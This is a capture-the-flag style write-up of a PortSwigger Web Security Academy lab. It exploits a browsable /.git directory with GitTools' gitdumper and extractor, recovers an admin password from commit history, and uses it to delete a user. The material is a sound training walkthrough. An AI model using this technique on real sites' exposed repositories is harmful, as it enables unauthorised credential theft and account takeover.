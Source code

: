 # [Lab 5: Information disclosure in version control history](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-version-control-history)

---

## Description

This lab discloses sensitive information via its version control history. To solve the lab, obtain the password for the `administrator` user then log in and delete Carlos's account.

---

## Solution

The web application's `/.git` directory is browsable.

![](images/Pasted%20image%2020210907164318.png)

Use [`GitTools`'s](https://github.com/internetwache/GitTools) `gitdumper.py` to retrieve the `.git` directory.

```bash
$ /opt/GitTools/Dumper/gitdumper.sh https://ac041fed1ef67e9380ab52e700dc0072.web-security-academy.net/.git/ dumped
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating dumped/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[+] Downloaded: objects/03/e516ab29ce136c255231d0fa42b337fabf55e6
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/6a/91afe98e40d9310bc637ba7e949e52325c5c70
[+] Downloaded: objects/21/54555944002791a4d27412bf6e9a6f29e942fa
[+] Downloaded: objects/ff/5d116d8ffb86667d6955ea95d2c5174854af6b
[+] Downloaded: objects/21/d23f13ce6c704b81857379a3e247e3436f4b26
[+] Downloaded: objects/89/44e3b9853691431dc58d5f4978d3940cea4af2
[+] Downloaded: objects/1a/69e3249d36cd0effe85a032194cad987e4c938
```

View `logs/HEAD` to determine the order of the repository's commits.

```bash
$ cat dumped/.git/logs/HEAD
0000000000000000000000000000000000000000 6a91afe98e40d9310bc637ba7e949e52325c5c70 Carlos Montoya <carlos@evil-user.net> 1631032947 +0000	commit (initial): Add skeleton admin panel
6a91afe98e40d9310bc637ba7e949e52325c5c70 03e516ab29ce136c255231d0fa42b337fabf55e6 Carlos Montoya <carlos@evil-user.net> 1631032947 +0000	commit: Remove admin password from config
````

It appears that the initial commit will contain the desired password. Its hash is `6a91afe98e40d9310bc637ba7e949e52325c5c70`.

Use [`GitTools`'s](https://github.com/internetwache/GitTools) `extractor.sh` to recover the contents of the repository's commits.

```bash
$ /opt/GitTools/Extractor/extractor.sh dumped extracted                                                           
###########
# Extractor is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########
[*] Destination folder does not exist
[*] Creating...
[+] Found commit: 03e516ab29ce136c255231d0fa42b337fabf55e6
[+] Found file: /home/kali/workspace/extracted/0-03e516ab29ce136c255231d0fa42b337fabf55e6/admin.conf
[+] Found file: /home/kali/workspace/extracted/0-03e516ab29ce136c255231d0fa42b337fabf55e6/admin_panel.php
[+] Found commit: 6a91afe98e40d9310bc637ba7e949e52325c5c70
[+] Found file: /home/kali/workspace/extracted/1-6a91afe98e40d9310bc637ba7e949e52325c5c70/admin.conf
[+] Found file: /home/kali/workspace/extracted/1-6a91afe98e40d9310bc637ba7e949e52325c5c70/admin_panel.php
```

Read the contents of `admin.conf` from that commit.

```bash
$ cat extracted/1-6a91afe98e40d9310bc637ba7e949e52325c5c70/admin.conf 
ADMIN_PASSWORD=uqpmf4n2kn6769pxcujj
```

Login with the credentials `administrator:uqpmf4n2kn6769pxcujj` and navigate to the admin panel. Delete `carlos`'s account to complete the challenge.


